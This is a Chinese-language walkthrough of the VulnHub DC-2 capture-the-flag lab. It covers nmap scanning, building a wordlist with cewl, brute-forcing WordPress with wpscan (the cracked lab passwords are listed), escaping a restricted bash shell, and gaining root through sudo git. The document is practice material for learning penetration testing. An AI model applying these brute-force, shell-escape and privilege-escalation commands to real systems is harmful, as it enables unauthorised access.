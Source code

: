 ```yaml
---
title: DC-2复现
tags: 
  - vulnhub
  - 渗透测试
permalink: /archives/54062/
createTime: 2022-06-05 05:30:31
---
```


# DC-2复现

## 描述

> 与 DC-1 非常相似，DC-2 是另一个专门构建的易受攻击的实验室，目的是获得渗透测试领域的经验。
>
> 与最初的 DC-1 一样，它的设计考虑到了初学者。
>
> 必须具备 Linux 技能和熟悉 Linux 命令行，以及一些基本渗透测试工具的经验。
>
> 就像 DC-1 一样，有五个标志，包括最终标志。
>
> 再说一次，就像 DC-1 一样，标志对初学者很重要，但对有经验的人来说并不那么重要。
>
> 简而言之，唯一真正重要的标志是最终标志。
>
> 对于初学者来说，谷歌是你的朋友。好吧，除了所有的隐私问题等等等等。
>
> 我还没有探索实现 root 的所有方法，因为我放弃了我一直在研究的以前的版本，并从基本操作系统安装之外完全重新开始。

## 开始

### Flag1:

- 使用nmap扫C段，得到目标IP：192.168.207.137

![img](https://img.crzliang.cn/img/1654348280925-a2c8411d-30cd-48a8-a321-0768f48403a1.png)

- 得到ip我们就开一下都开启了哪些端口

![img](https://img.crzliang.cn/img/1654348336822-35c2b2e5-e08c-4c97-846e-d5ce1859fb39.png)

- 开启了80和7744端口，我们先从80端口入手，直接用浏览器访问192.168.207.137:80

![img](https://img.crzliang.cn/img/1654348955430-8fe2c8a3-6388-4575-91de-0617ed1a33dc.png)

- 访问之后跳到了`http://dc-2/`，但是访问不成功，根据之前扫出来的结果也得知，这是dns没被解析，那就手动去添加hosts地址
- kali的hosts文件在`etc/`下

![img](https://img.crzliang.cn/img/1654349376987-138156b7-688d-44f0-9eea-b1e9b23ddc31.png)

- 修改好之后，直接进到

> Flag1:
>
> Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
>
> More passwords is always better, but sometimes you just can’t win them all.
>
> Log in as one to see the next flag.
>
> If you can’t find it, log in as another.

![image-20220604215708275](https://img.crzliang.cn/img/image-20220604215708275.png)

### Flag2:

- 根据翻译提示，接下来需要我们进行密码的爆破，那么我们需要一个密码字典，然后翻译中还有一个词`cewl`这是kali自带的一个字典生成工具

`cewl http://dc-2/ -w dc-2.txt    #生成字典`

- 得到有238个关键词的字典

![image-20220604220502248](https://img.crzliang.cn/img/image-20220604220502248.png)

- 我们在访问`http://dc-2/`的时候发现网站是由wordpress搭建的，kali中带有的wpscan是一款免费的、用于非商业用途的黑盒 WordPress 安全扫描器。

- 我们就直接使用工具扫描网站

  ![image-20220604225232357](https://img.crzliang.cn/img/image-20220604225232357.png)

- 然后发现了admin、jerry、tom三个用户名，

![image-20220604224440952](https://img.crzliang.cn/img/image-20220604224440952.png)

- 利用这三个用户名和之前爬下来的字典进行爆破

`wpscan --url http://dc-2/ -U user.txt -P dc-2.txt`

![image-20220604225340060](https://img.crzliang.cn/img/image-20220604225340060.png)

- 爆出了jerry和tom的密码；

> 用户名/密码
>
> jerry / adipiscing
>
> tom / parturient  

- wordpress是有后台管理网站的，我们上网查到一般都是在url后面加/wp-login.php
- 随便一个账户登录进去后，在Pages中找到了flag2

![image-20220604225805888](https://img.crzliang.cn/img/image-20220604225805888.png)

> Flag 2:
>
> If you can't exploit WordPress and take a shortcut, there is another way.
>
> Hope you found another entry point.

![image-20220604225924615](https://img.crzliang.cn/img/image-20220604225924615.png)

- 到这也就宣布80端口已经没有了利用的价值，得另寻他路才能找到后续的flag，我们前面扫到的7744端口还没有用到，那么接下来就能用上了

### Flag3:

- 经过几次尝试只有tom的账号能连上

![image-20220604230423791](https://img.crzliang.cn/img/image-20220604230423791.png)

- 登录成功后发现当前目录下就有flag3，但是cat并不能用，而vi能用，我们就直接看到了flag3的内容

> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

![image-20220604230712815](https://img.crzliang.cn/img/image-20220604230712815.png)

### Flag4:

- flag3将线索指向了jerry，也就意味着需要切换用户，然而并没有这么简单，根据提示，这是要绕过rbash

![image-20220604230900598](https://img.crzliang.cn/img/image-20220604230900598.png)

- 通过指令发现当前只有4个命令可用

![image-20220604231121563](https://img.crzliang.cn/img/image-20220604231121563.png)

- 通过百度得知了绕过的方法：即我们获取到的shell为：Restricted shell(受限制的shell)，可以添加环境变量来绕过

```txt
#绕过rbash

BASH_CMDS[a]=/bin/sh;a



#添加环境变量

export PATH=$PATH:/bin/

export PATH=$PATH:/usr/bin/
```

![image-20220604231349157](https://img.crzliang.cn/img/image-20220604231349157.png)

- 输入密码后也成功的切换到jerry的账号，并找到了flag4

![image-20220604231537492](https://img.crzliang.cn/img/image-20220604231537492.png)

> Good to see that you've made it this far - but you're not home yet. 
>
> You still need to get the final flag (the only flag that really counts!!!).  
>
> No hints here - you're on your own now.  :-)
>
> Go on - git outta here!!!!

![image-20220604231629358](https://img.crzliang.cn/img/image-20220604231629358.png)

### Flag5:

- 通过flag4得知可利用git提权

- 又发现jerry可以以root用户的身份执行git命令而且还不需要密码

![image-20220604232739815](https://img.crzliang.cn/img/image-20220604232739815.png)

- 通过百度找到了两种提权方法

```txt
方法1：

sudo git -p help #强制进入交互状态

!/bin/bash #打开一个用户为root的shell



方法2：

sudo git help config #在末行命令模式输入

!/bin/bash 或者 !'sh' #打开一个用户为root的shell
```

- 成功提权后进到根目录下就找到了最后的flag

![image-20220604233008680](https://img.crzliang.cn/img/image-20220604233008680.png)
